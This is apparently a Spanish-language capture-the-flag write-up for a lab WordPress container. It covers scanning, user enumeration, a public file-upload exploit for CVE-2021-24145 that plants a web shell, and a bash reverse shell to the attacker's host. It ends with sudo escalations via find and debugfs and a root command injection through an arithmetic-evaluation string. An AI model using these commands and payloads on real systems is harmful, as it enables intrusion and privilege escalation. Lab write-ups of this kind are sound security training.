 Fecha: 02/09/2024
Comienzo escaneando la máquina: 
```
sudo nmap -p- -sS -sC -sV --min-rate 5000 -n -Pn 172.18.0.2 -oN scan
```

![](Imágenes/Pasted%20image%2020240902202029.png)

Por lo que veo hay un servidor apache, así que hago fuzzing para buscar posibles urls:
```
ffuf -c -w /usr/share/wordlists/directory-list-2.3-medium.txt -u http://172.18.0.2/FUZZ  -e .php,.html,.txt,.js,.py -o fuzzing  
```

![](Imágenes/Pasted%20image%2020240902202710.png)

Encuentro el panel de login: wp-login.php. Uso la herramienta **wpscan** para enumerar usuarios, encontrando `erik` y `developer` 

```
wpscan --url http://172.18.0.2 --enumerate u
```

![](Imágenes/Pasted%20image%2020240902203407.png)

Además, podemos ver que hay un directorio backups, al que accedo: 

![](Imágenes/Pasted%20image%2020240902203854.png)

Descomprimo este directorio. Al leer el archivo que hay dentro, encuentro lo siguiente: 

![](Imágenes/Pasted%20image%2020240902204206.png)

Pruebo ese usuario y contraseña en el panel de login y entro como administrador. Voy a los plugins y veo que hay uno desactualizado: Modern Events Calendar Lite (versión 5.16.2). Busco y al parecer hay una vulnerabilidad, y un exploit para la misma en en [github](https://github.com/Hacker5preme/Exploits/blob/main/Wordpress/CVE-2021-24145/README.md).

![](Imágenes/Pasted%20image%2020240902204756.png)

Uso el script de python y consigo una shell en http://172.18.0.2:80//wp-content/uploads/shell.php:
```
python3 exploit.py -T 172.18.0.2 -P 80 -U / -u developer -p 2wmy3KrGDRD%RsA7Ty5n71L^
```

Haciendo sudo -l encuentro lo siguiente que puedo usar `find` como "rafa": 

![](Imágenes/Pasted%20image%2020240902205302.png)

Utilizo https://www.revshells.com/ para crear una reverse shell y trabajar más cómodamente: 
- En la shell virtual haré `bash -c 'bash -i >& /dev/tcp/172.18.0.1/9001 0>&1'`
- En mi máquina atacante haré `nc -lvnp 9001`
En https://gtfobins.github.io/gtfobins/find/#sudo encuentro:
```
sudo -u rafa find . -exec /bin/sh \; -quit
```

Como "rafa", puedo usar `debugfs` como "ruben":
![](Imágenes/Pasted%20image%2020240902211145.png)

Usando lo encontrado en https://gtfobins.github.io/gtfobins/debugfs/#sudo:
```
sudo -u ruben debugfs
!/bin/sh
```

Y, finalmente, como "ruben":
![](Imágenes/Pasted%20image%2020240902211401.png)

Podremos ejecutar /opt/penguin.sh como root, cuyo contenido es: 
![](Imágenes/Pasted%20image%2020240902211749.png)

Como no encontré qué hacer a partir de aquí, busqué en writeups, encontrando https://github.com/haw441kings/DockerLabsWriteUps/blob/main/Faciles/Whoiam.md. En el mismo, explica que usando lo siguiente como respuesta estaremos inyectando una shell y al ejecutarlo como administrador seremos root: 

```
sudo -u root /opt/penguin.sh
a[$(/bin/bash>&2)]+42
```

![](Imágenes/Pasted%20image%2020240902212443.png)

Analizando a posteriori, me di cuenta que el "+42" lo único que hace es que al salir del bash la salida sea "Correct" en vez de Wrong.

#TODO analizar como funciona la inyección. 